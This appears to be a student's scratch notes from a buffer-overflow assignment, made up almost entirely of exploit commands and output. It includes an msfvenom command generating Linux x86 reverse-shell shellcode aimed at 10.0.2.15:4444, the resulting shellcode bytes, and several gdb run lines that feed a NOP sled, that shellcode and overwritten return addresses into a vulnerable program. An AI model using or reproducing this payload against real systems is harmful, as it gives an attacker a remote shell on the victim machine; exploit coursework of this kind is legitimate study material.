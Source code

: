 


run $(perl -e ’print "\x90"x20,"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80",
"\x20\xcd\xff\xff"x20’)

ffffcd20 => "\x20\xcd\xff\xff"x40

```
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"
```




run $(perl -e 'print "\x90"x20,"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80",
"\x20\xcd\xff\xff"x20')


run $(perl -e 'print "\x90"x20')



run $(perl -e 'print "\x31\xdb\xf7\xe3\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80",
"\x10\xcd\xff\xff"x20')


68/4 => 17 ada 60


davi@davi:~/Documents/Assignment/A1-Code$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd"
"\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02"
"\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3"
"\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f"
"\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80";


![[Pasted image 20250823142835.png]]



run $(perl -e 'print "\x31\xdb\xf7\xe3\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')

